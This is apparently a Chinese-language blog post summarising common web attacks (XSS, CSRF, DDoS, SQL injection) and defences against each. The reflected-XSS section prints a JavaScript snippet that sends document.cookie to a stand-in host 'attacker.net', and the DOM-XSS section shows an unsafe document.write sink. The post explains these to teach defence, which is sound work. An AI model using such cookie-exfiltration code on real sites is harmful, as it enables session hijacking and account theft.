 ```yaml
---
layout: post
title: Web安全问题
categories:前端开发
description: some word here
keywords: Web安全
---
```


随着Web2.0、社交网络、微博等等一系列新型的互联网产品的诞生，基于Web环境的互联网应用越来越广泛，企业信息化的过程中各种应用都架设在Web平台上，Web业务的迅速发展也引起黑客们的强烈关注，接踵而至的就是Web安全威胁的凸显。下文对常见的Web安全问题和防范防范进行学习和总结。

## 跨站脚本攻击(XSS)
### 简介
跨站脚本攻击(Cross Site Scripting)为和层叠样式表(Cascading Style Sheets，CSS)区分开，在安全领域叫做“XSS”。恶意攻击者往Web页面里注入恶意Script代码，当用户浏览这些网页时，就会执行其中的恶意代码，
可对用户进行盗取cookie信息、会话劫持、篡改网页等各种攻击。XSS是常见的Web攻击技术之一，由于跨站脚本漏洞易于出现且利用成本低，所以被OWASP列为当前的头号Web安全威胁。
攻击者一般通过留言、电子邮件或其他途径向受害者发送一个精心构造的恶意URL，当受害者在Web中打开该URL的时候，恶意脚本会在受害者的计算机上执行。
### 分类
#### 反射型XSS
服务器接受客户端的请求包，不会存储请求包的内容，只是简单的把用户输入的数据“反射”给浏览器。比如
```
var i = new Image;
i.src="http://attacker.net/"+document.cookie;
```
访问这个链接则会获取cookie内容。
#### 存储型XSS
这类XSS攻击会把用户输入的数据“存储”在服务器端的数据库中。多发生在富文本编辑器、日志、留言、配置系统等数据库保存用户输入内容的业务场景。即用户的注入脚本保存到了数据库里，
其他用户进行访问涉及到包含恶意脚本的链接都会中招。由于这段恶意的脚本被上传保存到了服务器，这种XSS攻击就叫做“存储型XSS”。
#### 基于DOM的XSS
DOM XSS和反射型XSS、存储型XSS的差别在于DOM XSS的代码并不需要服务器参与，触发XSS靠的是浏览器端的DOM解析。攻击者将攻击脚本注入到DOM结构里，比如```<script>document.write(window.location.search); </script>```
### 防范
#### 对输入进行检查、过滤
不信任任何用户的输入，对每个用户的输入都做严格检查。通过检验输入值的有效性， 当输入值不符合条件时就显示错误消息并促使用户重新输入，在输出的时候，对某些特殊字符进行转义，替换。
例如，在HTML中显示<时，必须按照字符实体引用（Character Entity Reference）将其转义记载为'&lt';。而如果忽略这一步骤直接生成HTML的话，浏览器就会将<解释为标签的开始。
从而就会招致恶意利用此漏洞进行的XSS攻击。
没有用引号括起来的属性值也会导致XSS攻击，空格就意味着属性值的结束，就可以通过插入空格来添加属性，比如onmouseover事件绑定。
然而， 即使属性值都用引号括了起来，但只要"没有被转义，还是会发生 XSS 攻击。所以要对<和"进行转义。
#### 输出编码
服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义来防范XSS攻击。JavaScript的编码方式可以使用JavascriptEncode。

#### 辅助性对策 
给 Cookie添加 HttpOnly属性，该属性能禁止JavaScript读取Cookie值。对Cookie信息进行MD5等算法进行多次散列存放，必要时还要对ip和cookie进行绑定，一旦检测异常，立马让用户重新登录。

## 跨站请求伪造(CSRF)
### 简介
跨站请求伪造(CSRF)可以攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账......造成的问题包括：个人隐私泄露以及财产安全。参考别的博客的一张图，过程如下：
![](/images/web/w12.png)
### 防范
#### 执行重要业务之前，要求用户提交额外的信息。通过 token 或者 验证码 来检测用户提交
#### 尽量不要在页面的链接中暴露用户隐私信息，对于用户修改删除等操作最好都使用post 操作 。
#### 限制验证cookie的到期时间。这些cookie的合法时间越短，黑客利用你的Web应用程序的机会就越小。不过，这个时间越短，用户就越不方便。因此，你需要在安全性和方便性之间进行平衡。避免全站通用的cookie，严格设置cookie的域

## 分布式拒绝服务攻击(DDoS)
### 简介
利用合理的服务请求来占用过多的服务资源，从而使合法用户无法得到服务的响应

### 防范
#### 隐藏服务器的真实IP地址，及时变更
#### 防火墙上放置一份 ACL（访问控制列表) 来阻断这些来自这些 IP 的访问
#### 使用高性能的负载均衡软件

## SQL注入
### 简介
把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。
### 防范
单引号转义、preparestatement预编译接口